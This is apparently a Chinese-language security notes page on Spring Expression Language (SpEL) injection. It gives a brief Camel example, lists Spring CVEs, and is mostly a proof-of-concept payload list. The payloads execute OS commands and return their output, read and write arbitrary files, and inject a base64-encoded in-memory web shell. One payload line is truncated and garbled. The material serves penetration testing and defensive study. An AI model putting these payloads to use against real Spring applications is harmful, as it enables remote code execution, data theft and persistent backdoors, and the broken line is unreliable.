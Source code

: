 Camel将SpEL用作DSL或XML配置，模板`#{}`

```xml
<route>
  <from uri="direct:foo"/>
  <filter>
    <spel>#{request.headers.foo == 'bar'}</spel>
    <to uri="direct:bar"/>
  </filter>
</route>
```

Spring相关组件出现的漏洞包括：CVE-2016-4977、CVE-2017-8046、CVE-2018-1260、CVE-2018-1273、CVE-2021-22053、CVE-2022-22947、CVE-2022-22963等，参考：<https://github.com/ax1sX/SpringSecurity>

### POC

SpEL的语言特性中有几点值得注意，（1）`{}`可以用来表达列表/键值对 （2）支持数组创建和数组调用，如`new String[]`、`members[0]` （3）`T`运算符用来指定类实例（除java.lang外，均需要采用全限定类名） （4）支持用`new`调用构造函数 （5）`#`用来引用变量，`$`用来引用属性 （6）可使用`#this`或`#root` （6）支持三元运算符作条件判断`xx ? true : false`

```
* Command Execution
T(Runtime).getRuntime().exec(\"open -a Calculator\")
new java.lang.ProcessBuilder({\"/bin/sh\",\"-c\",\"open -a Calculator\"}).start()
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")
T(String).getClass().forName("java.lang.Runtime").getMethod("exec",T(String[])).invoke(T(String).getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(T(String).getClass().forName("java.lang.Runtime")),new String[]{"/bin/sh","-c","open -a Calculator"})
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='/bin/sh';s[1]='-c';s[2]='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);")
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("s=[3];s[0]='/bin/sh';s[1]='-c';s[2]='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);"),)
nstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a...")),)

* Command Execution + Response
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("/bin/sh", "-c", "whoami").start().getInputStream(), "gbk")).readLine()
new java.util.Scanner(new java.lang.ProcessBuilder("/bin/sh", "-c", "ls", ".\\").start().getInputStream(), "GBK").useDelimiter("asdfasdf").next()

* Read or Write File
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/Users/axisx/Downloads/application.properties"))))
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/1.txt")), 'hello'.getBytes(), T(java.nio.file.StandardOpenOption).WRITE)

* MemShell
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```
